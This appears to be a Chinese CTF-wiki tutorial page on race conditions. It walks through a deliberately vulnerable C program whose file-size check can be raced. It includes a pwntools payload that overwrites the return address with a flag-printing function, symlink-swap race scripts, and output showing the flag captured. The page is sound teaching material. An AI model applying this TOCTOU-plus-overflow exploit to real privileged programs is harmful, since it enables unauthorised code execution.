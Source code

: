 [EN](./problem.md) | [ZH](./problem-zh.md)
# 题目

## 构造例子

### 源代码

源代码如下

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <unistd.h>
void showflag() { system("cat flag"); }
void vuln(char *file, char *buf) {
  int number;
  int index = 0;
  int fd = open(file, O_RDONLY);
  if (fd == -1) {
    perror("open file failed!!");
    return;
  }
  while (1) {
    number = read(fd, buf + index, 128);
    if (number <= 0) {
      break;
    }
    index += number;
  }
  buf[index + 1] = '\x00';
}
void check(char *file) {
  struct stat tmp;
  if (strcmp(file, "flag") == 0) {
    puts("file can not be flag!!");
    exit(0);
  }
  stat(file, &tmp);
  if (tmp.st_size > 255) {
    puts("file size is too large!!");
    exit(0);
  }
}
int main(int argc, char *argv[argc]) {
  char buf[256];
  if (argc == 2) {
    check(argv[1]);
    vuln(argv[1], buf);
  } else {
    puts("Usage ./prog <filename>");
  }
  return 0;
}
```

### 分析

可以看出程序的基本流程如下

- 检查传入的命令行参数是不是 “flag”，如果是的话，就退出。
- 检查传入的命令行参数对应的文件大小是否大于 255，是的话，就直接退出。
- 将命令行参数所对应的文件内容读入到 buf 中 ，buf 的大小为 256。

看似我们检查了文件的大小，同时 buf 的大小也可以满足对应的最大大小，但是这里存在一个条件竞争的问题。

如果我们在程序检查完对应的文件大小后，将对应的文件删除，并符号链接到另外一个更大的文件，那么程序所读入的内容就会更多，从而就会产生栈溢出。

### 基本思路

那么，基本思路来了，我们是想要获得对应的`flag`的内容。那么我们只要通过栈溢出修改对应的`main`函数的返回地址即可，通过反汇编以及调试可以获得`showflag`的地址，获得对应的payload

```python
➜  racetest cat payload.py 
from pwn import *
test = ELF('./test')
payload = 'a' * 0x100 + 'b' * 8 + p64(test.symbols['showflag'])
open('big', 'w').write(payload)
```

对应两个条件竞争的脚本为

```sh
➜  racetest cat exp.sh    
#!/bin/sh
for i in `seq 500`
do
    cp small fake
    sleep 0.000008
    rm fake
    ln -s big fake
    rm fake
done
➜  racetest cat run.sh 
#!/bin/sh
for i in `seq 1000`
do
    ./test fake
done
```

其中 exp 用于来竞争在相应的窗口内删除 fake 文件，同时执行符号链接。run 用来执行程序。

### 具体效果

```shell
➜  racetest (sh exp.sh &) && sh run.sh
[...]
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
flag{race_condition_succeed!}
[...]
```

其中成功的关键在于对应的 `sleep` 的时间选择。

# 参考

- http://www.cnblogs.com/biyeymyhjob/archive/2012/07/20/2601655.html
- http://www.cnblogs.com/huxiao-tee/p/4660352.html
- https://github.com/dirtycow/dirtycow.github.io